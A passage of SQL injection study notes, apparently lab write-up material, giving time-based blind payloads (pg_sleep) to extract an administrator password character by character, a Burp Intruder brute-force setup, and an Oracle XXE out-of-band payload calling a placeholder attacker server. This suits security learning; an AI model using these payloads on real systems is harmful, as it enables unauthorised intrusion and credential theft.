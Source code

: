 ```
'%3b select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when (substring((select password from users where username ='administrator'),1,1)='f') then pg_sleep(10) else null end--
```

<br>

For Burp Intruder use the following configurations:
   * Attack Type:  Cluster Bomb
   * Payload Positions: 2 position markers need to be set:
      * The first one should be on the character offset position in the password
      * The second marker should be on the actually character to test
         * where username='administrator'),$$,1)='$$') 
   * Payloads:
      * First marker - Numbers From 1 to 20
      * Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)
   * View Results: Filter by the Response received/completed columns. The higher values should have the correct character in their positions. After sorting, it should be easy to manually put together the password.
   
   * Note:  If having trouble sorting by 2 columns in Burp Suite.  You can copy/paste only the necessary columns in an Excel sheet, sort them appropriately by the "Payload 1" request so they are in order (1-20) positions.  Then use the =CONCAT() command on the "Payload 2" column so the password is combined automatically. 

<br><br><br>

#### SQLi Out of Band Interaction

* **Example:  Out of Band Interaction**

* https://portswigger.net/web-security/sql-injection/cheat-sheet#dns-lookup

* Here we are using a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly).


* An XXE payload using a parameter entity called remote is used, that will reach out to our attacker server.

    * Oracle DB:

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```


Decoded Version:

```
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://ATTACKER-SERVER/"> %remote;]>
')
,'/1') 
FROM dual--
```
